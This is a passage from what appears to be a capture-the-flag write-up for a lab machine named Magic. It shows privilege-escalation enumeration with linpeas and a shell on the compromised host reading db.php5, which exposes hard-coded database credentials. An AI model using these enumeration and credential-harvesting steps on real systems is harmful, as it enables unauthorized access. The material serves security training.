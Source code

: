 ```ruby
drwxr-xr-x  2 theseus theseus 4096 Oct 22  2019 Documents
drwxr-xr-x  2 theseus theseus 4096 Oct 22  2019 Downloads
drwxr-xr-x  2 theseus theseus 4096 Oct 22  2019 Music
drwxr-xr-x  2 theseus theseus 4096 Oct 22  2019 Pictures
drwxr-xr-x  2 theseus theseus 4096 Oct 22  2019 Public
drwxr-xr-x  2 theseus theseus 4096 Oct 22  2019 Templates
drwxr-xr-x  2 theseus theseus 4096 Oct 22  2019 Videos
-r--------  1 theseus theseus   33 Aug 21 20:47 user.txt
```

Lets run [linpeas](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite), for further enumeration

```css
[+] Interesting writable Files
[i] https://book.hacktricks.xyz/linux-unix/privilege-escalation#writable-files
/var/www/Magic/db.php5
/var/www/Magic/images
/var/www/Magic/images/fulls
/var/www/Magic/images/uploads
/var/www/Magic/index.php
/var/www/Magic/login.php
/var/www/Magic/logout.php
/var/www/Magic/upload.php
/var/www/Magic/assets
/var/www/Magic/assets/sass
/var/www/Magic/assets/sass/libs
/var/www/Magic/assets/css
/var/www/Magic/assets/css/images
/var/www/Magic/assets/js
/var/www/Magic/assets/webfonts
/var/www/Magic/index.php
```

We see a db.php5 file. Checking the content db.php5

```bash
www-data@ubuntu:/dev/shm$ cd /var/www/Magic/
www-data@ubuntu:/var/www/Magic$ cat db.php5
<?php
class Database
{
    private static $dbName = 'Magic' ;
    private static $dbHost = 'localhost' ;
    private static $dbUsername = 'theseus';
    private static $dbUserPassword = 'iamkingtheseus';
```

We find the Database credential. Trying to access mysql we get the following error

```ruby
mysql

Command 'mysql' not found, but can be installed with:

apt install mysql-client-core-5.7
apt install mariadb-client-core-10.1

Ask your administrator to install one of them.
```

